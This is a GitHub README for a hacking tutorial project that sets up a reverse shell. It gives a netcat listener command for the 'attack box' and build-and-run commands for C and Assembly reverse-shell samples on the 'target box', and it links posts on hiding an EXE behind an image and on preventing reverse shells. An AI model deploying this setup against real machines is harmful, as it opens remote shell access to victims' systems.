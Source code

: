 <h1>BISMIL</h1>
<h2>Pure way to start hacking programming in C and Assembly languages</h2>
<h3>ON ATTACK BOX RUN:</h3>
<pre>nc -lvp 444</pre>
<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/1.jpeg">
<h3>ON TARGET BOX:</h3>
<ul>
  <li>We need an signal, like exe file or just a tcp request</li>
  <li><a href="https://github.com/dewebdes/bismil/blob/master/rsv.c">PURE C Sample</a><p>
    gcc rsv.c -o rsv
    
sudo ./rsv
    </p></li>
    <li><a href="https://github.com/dewebdes/bismil/blob/master/reverse_tcp.asm">ASM Sample</a><p>
    nasm -f elf32 reverse_tcp.asm && ld -m elf_i386 reverse_tcp.o -o reverse_tcp
    </p></li>
</ul>

<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/2.jpeg">
<hr>
<h2><a href="https://www.linkedin.com/posts/kaveh-eyni-08060b59_protection-reverseengineering-snort-activity-6594048815320436736-WtVH">How to Prevent Reverse Shell?</a></h2>
<hr>
<h2><a href="https://www.linkedin.com/posts/kaveh-eyni-08060b59_viruses-exploitation-pictures-activity-6598750617307619328-g2Ke">Hide EXE Behind Image</a></h2>
<hr>
<h1><a href="https://www.linkedin.com/feed/update/urn:li:activity:6626573333691453440" />Read More About ; PURE HACKING DEVELOPMENT ;</a></h1>
